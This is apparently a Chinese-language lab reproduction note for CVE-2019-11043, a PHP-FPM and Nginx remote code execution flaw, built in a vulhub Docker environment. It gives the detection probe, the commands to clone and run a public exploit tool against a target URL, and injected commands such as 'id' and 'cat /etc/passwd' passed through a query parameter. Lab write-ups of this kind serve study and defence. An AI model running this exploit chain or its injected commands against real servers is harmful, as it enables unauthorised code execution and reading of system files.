


## 构建

``` shell
cd vulhub/php/CVE-2019-11043
docker-compose up -d 
```

## 漏洞原理
https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.zh-cn.md

https://blog.orange.tw/posts/2019-10-an-analysis-and-thought-about-recently/

https://cloud.tencent.com/developer/article/1530703

这是一个非常有趣的漏洞！从一个小的内存缺陷到代码执行。它结合了二进制和网络技术，

## PoC（Proof of Concept） 验证漏洞存在的代码
作者利用了双缓冲机制，如果缓冲区到达末尾（pos > end），PHP-FPM 会创建一个新的缓冲区，并将前一个缓冲区放入结构成员 fcgi_data_seg->next 中。
若有 PHPINFO 页面。获取/info.php/%0a.php ，观察 $_SERVER['PATH_INFO'] 是否损坏！
...
影响版本：PHP 5.6-7.x，Nginx>=0.7.31
## Exp（Exploit）进行实际的攻击利用
安装漏洞利用工具,和利用
```shell
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go run . "http://your-ip:8080/index.php"
```

访问http://your-ip:8080/index.php?a=id，即可查看到id命令已成功执行

注意：只有部分PHP-FPM子进程受到了污染，因此请尝试几次以执行RCE命令，会出现成功执行
```shell
/index.php?a=cat /etc/passwd 
```


## 复现总结
无法直接通过url传入反弹shell命令，执行失败
